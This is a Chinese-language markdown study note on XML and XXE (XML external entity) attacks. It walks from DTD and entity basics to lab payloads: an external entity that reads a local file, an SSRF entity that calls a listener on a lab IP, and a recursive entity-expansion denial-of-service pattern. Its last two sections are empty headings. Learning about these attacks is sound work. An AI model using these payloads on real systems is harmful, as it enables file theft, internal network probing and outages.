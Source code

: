 # xxe学习记录
## 1.xml基础  
####1.1  xml-dtd  
	<?xml version="1.0"?>   
	<!DOCTYPE note [  
    <!ELEMENT note (to,from,heading,body)>  
    <!ELEMENT to (#PCDATA)>  
    <!ELEMENT from (#PCDATA)>  
    <!ELEMENT heading (#PCDATA)>  
    <!ELEMENT body (#PCDATA)>  
    <!ENTITY entity "entity_value">  
	]>  
	<note>  
	<to>George</to>  
	<from>John</from>  
	<heading>Reminder</heading>  
	<body>Don't forget the meeting!</body>  
	&entity;  
	</note>    

XML 可扩展标记语言，被设计用来传输和存储数据。
可扩展既是他能拥有无限多个标记。  
通过自定义文档类型和实体来定义标记。  
> XML 文档的语法约束：DTD (Document Type
Definition 文档类型定义)

	<!DOCTYPE note [  
    <!ELEMENT note (to,from,heading,body)>  
    <!ELEMENT to (#PCDATA)>  
    <!ELEMENT from (#PCDATA)>  
    <!ELEMENT heading (#PCDATA)>  
    <!ELEMENT body (#PCDATA)>  
    <!ENTITY entity "entity_value">  
	]>  

比如这一段就定义了标签  
```note  to  from  heading  body```  
然后这一段就可以调用这一段标签  

	<note>    
	  <to>George</to>
	  <from>John</from>    
	  <heading>Reminder</heading>    
	  <body>Don't forget the meeting!</body>    
	  &entity;    
	</note>  
####1.2 xml-实体引用  
在 xml 内部：
 ```<!ENTITY 实体名称 "实体的值">
DTD例子：  

	<!ENTITY writer "Bill Gates">  
	//XML 引用实体:&writer;
外部实体声明&引用  
外部DTD(实体声明):  

	<!ENTITY 实体名称 "实体的值">
在 xml 内部（外部实体引用）：
	
	<!ENTITY 实体名称 SYSTEM "URI/URL">
	//这个很重要，在之后的攻击测试里面会用到
	或者
	<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
## 2. xxe  
####2.1  外部实体引用
xxe可以引用外部实体，通过  

	<!ENTITY 实体名称 SYSTEM "URI/URL">
可以读取本地文件 
本地测试:  
![](http://i.imgur.com/1q84kWZ.png)  
Doctype里面的定义不会展示在里游览器中，实体note标签下的东西展示出来  
我们来看下语句  

	<!ENTITY xxe SYSTEM "file:///C:/11111.txt">
引用实体xxe，xxe的值是外部实体file:///C:/11111.txt  
这里的file协议读取C盘下面的11111.txt文件  
这里如果在一个web应用里面存在xxe，那么就可以对服务器主机任意文件读取  
当然这个实验的时候踩到的一个坑就是xml解释器的问题，试了很多浏览器，最后在ie6上面得到了预期回显  
####2.2  ssrf  
xxe可以引用外部实体，通过  

	<!ENTITY 实体名称 SYSTEM "URI/URL">
这里是可以通过url请求来获取值得，这就满足了ssrf的攻击模式  
本地测试:  
![](http://i.imgur.com/g8koU0P.png)  
![](http://i.imgur.com/PWAJ6TP.png)  
![](http://i.imgur.com/7C4tJpw.png)  
这里可以看到，我们冲虚拟机192.168.141.128里面   

	<!ENTITY xxe SYSTEM "http://192.168.141.129:1234">  
去访问kali的1234端口  
然后kali的1234端口监听，监听到了数据  
另外请求外部志愿还有一种方式：直接使用DOCTYPE  
##3  DDos
因为在dtd里面可以对实体反复引用  
	
	<?xml version="1.0" encoding="utf-8" standalone="no" ?>
	<!DOCTYPE note [
	<!ENTITY xxe "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx">
	<!ENTITY xxe1 "&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;&xxe;">
	<!ENTITY xxe2 "&xxe1;&xxe1;&xxe1;&xxe1;&xxe1;&xxe1;&xxe1;">
	...
	...
	]>
	<note>
	    &xxe;
	</note>
可以想一想，这样地柜调用上一级，呈指数倍数增长，xxe10的数据量会有多大？  
##4  参数实体
##5  通过 Xinclude 包含外部资源
